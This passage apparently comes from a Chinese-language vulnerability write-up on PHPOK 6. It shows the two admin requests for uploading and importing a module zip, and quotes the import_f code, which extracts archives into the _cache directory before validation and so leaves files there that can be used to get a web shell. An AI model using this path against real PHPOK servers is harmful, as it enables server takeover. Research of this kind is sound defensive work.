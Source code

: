 <div align=center><img src="./images/11.png"></div>

抓包跟一下`url`, 分别为:

```php
/phpok6/admin.php?c=upload&f=zip&PHPSESSION=cb43j0h4epcfr589foaphmk2p5&id=WU_FILE_0&name=wdnmd.zip&type=application/x-zip-compressed&lastModifiedDate=Tue+Mar+15+2022+15:23:16+GMT+0800+(中国标准时间)&size=1244 HTTP/1.1

/phpok6/admin.php?c=module&f=import&zipfile=_cache/0eb054f91b4f2a92.zip&_=1647333917744
```

跟进`framework/admin/module_control.php`中的`import_r`方法, 可以看到虽然后面会抛出`error`, 但是会先解压`_cache`目录下的压缩包再进行判断, 因此在`_cache`中会保留解压后的文件内容, 故可以利用`_cache`中解压后的文件进行`getshell`.

```php
public function import_f() {
    $zipfile = $this->get('zipfile');
    if(!$zipfile){
        $this->lib('form')->cssjs(array('form_type'=>'upload'));
        $this->addjs('js/webuploader/admin.upload.js');
        $this->view('module_import');
    }
    if(strpos($zipfile,'..') !== false){
        $this->error(P_Lang('不支持带..上级路径'));
    }
    if(!file_exists($this->dir_root.$zipfile)){
        $this->error(P_Lang('ZIP文件不存在'));
    }
    $this->lib('phpzip')->unzip($this->dir_root.$zipfile,$this->dir_cache);
    if(!file_exists($this->dir_cache.'module.xml')){
        $this->error(P_Lang('导入模块失败，请检查解压缩是否成功'));
    }
}
```
